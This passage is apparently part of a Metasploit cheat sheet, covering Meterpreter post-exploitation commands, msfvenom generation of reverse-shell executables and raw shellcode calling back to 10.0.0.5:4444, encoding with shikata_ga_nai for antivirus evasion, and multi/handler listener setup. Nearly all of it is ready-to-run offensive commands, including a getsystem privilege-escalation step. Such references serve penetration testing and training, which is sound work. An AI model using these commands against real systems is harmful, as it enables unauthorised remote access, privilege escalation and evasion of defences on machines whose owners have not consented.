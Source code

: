 5. **After successful session**
    
    ```text
    sessions -l
    sessions -i 1
    # now inside Meterpreter
    sysinfo
    getsystem          # attempt privilege escalation (careful & conditional)
    ```
    

---

## msfvenom — create payloads & shellcode

Generate a standalone EXE with a reverse Meterpreter payload:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o shell.exe
```

Generate raw shellcode (for exploit dev):

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw > shellcode.bin
```

Encode payloads:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded.exe
```

- `-e` = encoder, `-i` = iterations.
    

> [!warning] Encoding is _not_ guaranteed AV-evasion; test and validate. Encoders can break payloads.

---

## Handling sessions & `multi/handler`

When you create a payload that calls back to you, use `multi/handler`:

```text
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
exploit -j
```

`-j` runs handler as a job so msfconsole remains interactive.

---

